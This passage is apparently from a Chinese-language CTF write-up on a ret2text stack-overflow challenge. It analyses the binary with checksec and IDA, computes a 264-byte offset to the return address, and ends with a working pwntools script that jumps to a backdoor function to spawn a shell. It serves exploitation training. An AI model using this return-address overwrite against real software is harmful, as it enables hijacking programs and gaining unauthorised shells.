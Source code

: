 成功拿到 flag。按 Ctrl+C，终止程序。

## P4
先分析可执行文件。

### Checksec 分析
`checksec --file=ret2text2`

```plain
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH        Symbols                FORTIFY        Fortified        Fortifiable        FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   71 Symbols          No        0                1        ret2text2
```

`No PIE`，说明程序加载地址是固定的，可以直接硬编码或静态计算目标函数的地址。

### IDA 分析
#### `main`
![](https://cdn.nlark.com/yuque/0/2025/png/61818612/1760709938336-34c18418-6558-4a2b-ac21-7f837f2e7dd0.png)

#### `vuln`
![](https://cdn.nlark.com/yuque/0/2025/png/61818612/1760709943003-ae61cc3c-286f-48ea-937f-fbab75b9dc80.png)

#### `backdoor`
注意到程序中还留有一个 `backdoor` 函数，作用是打开 shell：

![](https://cdn.nlark.com/yuque/0/2025/png/61818612/1760709951935-0df1dc93-5df7-4db2-a285-641849199383.png)

### 逻辑分析
注意到 `vuln` 函数中声明了一个 256 字节大小的字符数组 `buf`，但 `read` 读入了 0x140 即 320 个字符，多出 64 字节，存在缓冲区溢出问题。看 IDA 给 `buf` 的注释 `// [rsp+0h] [rbp-100h] BYREF`，`buf` 距离 `rbp` 有 0x100 即 256 字节。我们的目的是将函数的返回地址（`rbp+8h`）覆盖为 `backdoor` 函数的地址，实现跳转到 `backdoor` 函数，因此需要先写入 0x108 即 264 字节的无效数据。对着 **IDA View-A** 标签页按_空格_，找到 `backdoor` 函数的地址 `00000000004011CA`，如图：

![](https://cdn.nlark.com/yuque/0/2025/png/61818612/1760709958601-d29c28be-5824-4d81-b233-b8a45844fe78.png)

现在可以编写 payload 了，在 LLM 的帮助下编写了如下的代码：

```python
from pwn import *

context(log_level="debug", arch="amd64", os="linux")
p = process("./ret2text2")

# 目标地址：backdoor 函数的精确入口
BACKDOOR_ADDR = 0x4011CA

# 栈偏移量：256 (buf) + 8 (saved RBP)
PADDING_SIZE = 264

# 1. 构造 Payload
padding = b'A' * PADDING_SIZE
ret_addr = p64(BACKDOOR_ADDR) # 使用 p64 打包地址（小端序）

payload = padding + ret_addr

log.success(f"Payload ready. Size: {len(payload)} bytes")

# 2. 发送并获得 Shell
p.sendline(payload)
p.interactive()
```